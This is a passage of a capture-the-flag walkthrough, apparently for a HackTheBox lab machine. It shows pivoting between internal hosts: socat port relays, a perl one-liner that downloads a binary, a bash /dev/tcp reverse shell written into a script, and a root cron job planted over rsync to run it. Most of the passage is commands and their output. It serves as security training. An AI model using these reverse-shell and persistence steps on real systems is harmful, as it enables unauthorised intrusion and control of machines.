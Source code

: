 Ok! There are too many hops here to try to connect back direct to our Kali. Instead I believe would be easier to transfer `socat` to the web server, and try to get a reverse shell there.

To do that, we can again use `socat` on `nodered` to redirect a port to the port we have our web server serving files on Kali.

```bash
root@nodered:/tmp# /tmp/socat-static tcp-listen:8181,fork tcp:10.10.14.8:8181 &
/tmp/socat-static tcp-listen:8181,fork tcp:10.10.14.8:8181 &
[3] 1733
```

Then, from the `www` web server, we use our perl oneliner to download the `socat-static`.

```bash
root@www:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://172.19.0.3:8181/socat-static", "socat-static");'
<tp://172.19.0.3:8181/socat-static", "socat-static");'
```

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
...
10.10.10.94 - - [23/Aug/2024 14:41:03] "GET /socat-static HTTP/1.1" 200 -
```

Then we grant it execution permission.

```bash
root@www:/tmp# chmod +x socat-static
chmod +x socat-static
```

Now, we can try to build a cron job on the `backup` server to connect back to `socat` on `www`.

First, lets create a shell script with our payload.

```bash
root@www:/tmp# echo "bash -c 'bash -i >& /dev/tcp/172.20.0.3/9010 0>&1' &" > shell.sh
<c 'bash -i >& /dev/tcp/172.20.0.3/9010 0>&1' &" > shell.sh
```

```bash
root@www:/tmp# cat /tmp/shell.sh
bash -c 'bash -i >& /dev/tcp/172.20.0.3/9010 0>&1' &
```

And transfer it to the tmp directory on `backup`.

```bash
root@www:/tmp# rsync -a shell.sh rsync://backup:873/src/tmp/
rsync -a shell.sh rsync://backup:873/src/tmp/
```

Then we create the cron job file calling our scritp.

```bash
root@www:/tmp# echo '* * * * * root sh /tmp/shell.sh' > shell
echo '* * * * * root sh /tmp/shell.sh' > shell
```
